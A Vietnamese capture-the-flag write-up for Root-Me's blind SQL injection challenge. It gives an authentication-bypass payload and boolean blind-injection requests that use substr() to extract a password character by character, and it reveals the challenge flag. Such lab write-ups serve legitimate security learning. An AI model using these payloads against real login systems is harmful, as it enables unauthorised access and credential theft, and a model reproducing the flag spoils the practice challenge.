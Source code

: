 # WRITE UP

**Challenge: [SQL Injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-blind)**

Thử fuzz với payload **admin’-- -** ta đã access thành công qua Authentication v 0.02. Tuy vậy, website chẳng trả về cho thông tin password gì cả:

<img src="./media/image1.png" style="width:6.5in;height:2.46458in" alt="Graphical user interface, application Description automatically generated" />

Mở burpsuite và tìm kiếm thôi. Thử thay đổi payload bằng cách sử dụng union select thì phát hiện ra website đã filter các keyword chông SQL Injection với thông báo **“Injection detected”**:

<img src="./media/image2.png" style="width:6.5in;height:2.46667in" />

Với blind injection, ta thực hiện mò thử với các cấu trúc mà server database hay tạo, fuzz thôi:

<img src="./media/image3.png" style="width:6.5in;height:2.65694in" alt="Graphical user interface, text, website Description automatically generated" />

Với payload:

*username=admin%27+AND+(select+username+from+sqlite\_master)='admin'--+-&password=admin%27--+-*

Server trả về là TRUE fuzz tìm password bằng substr() thôi!

1.  **Tìm length(password):**

<img src="./media/image4.png" style="width:6.5in;height:3.17639in" alt="Graphical user interface, application Description automatically generated" />

-   Length(password) == 8

1.  **Tìm password:**

Payload để fuzz:

*username=admin%27+AND+substr((select+password+from+sqlite\_master),1,1)='a'--+-&password=admin%27--+-*

<img src="./media/image5.png" style="width:6.5in;height:4.19097in" alt="Table Description automatically generated with medium confidence" />

Sau một khoảng thời gian, ta đã ghép được password: **e2azO93i**

<img src="./media/image6.png" style="width:6.5in;height:3.90347in" alt="A picture containing text, screenshot, monitor, computer Description automatically generated" />

**Flag:** e2azO93i
